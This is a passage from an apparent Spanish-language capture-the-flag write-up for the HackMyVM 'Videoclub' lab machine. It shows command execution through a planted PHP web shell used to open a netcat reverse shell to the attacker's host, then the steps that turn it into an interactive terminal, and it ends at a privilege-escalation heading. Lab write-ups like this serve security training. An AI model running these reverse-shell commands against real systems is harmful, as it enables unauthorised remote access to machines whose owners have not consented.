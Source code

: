 ```bash
||||\)   .-'    / \    `-.   (/||||
\|||    (`.___.')-(`.___.')    |||/
 '"'     `-----'   `-----'     '"'
```

Pero para poder escalar privilegios necesito acceso al sistema, asique ya que puedo ejecutar comandos voy a intentar entablar una reverse shell.

Pongo netcat en escucha en el puerto 8888 (por ejemplo).

Y ejecuto el siguiente comando:

```bash
curl 'http://192.168.0.16:3377/c0ntr0l.php?f1ynn=nc++-e+/bin/bash+192.168.0.11+8888'
```

Y ya tengo la conexión inversa, tengo acceso al sistema.

![](/assets/images/HMV/Videoclub-HackMyVM/shell.webp)

Pero para tener una shell interactiva he de realizar el tratamiento de la tty.

```bash
script /dev/null -c bash
Script started, file is /dev/null
```

```bash
www-data@video-club-margarita:/var/www/html$ ^Z
zsh: suspended  nc -lnvp 8888
```

```bash
❯ stty raw -echo; fg
[1]  + continued  nc -lnvp 8888
 				reset
reset: unknown terminal type unknown
Terminal type? xterm
```

```bash
www-data@video-club-margarita:/var/www/html$ export TERM=xterm
www-data@video-club-margarita:/var/www/html$ export SHELL=bash
```

# Escalada de Privilegios
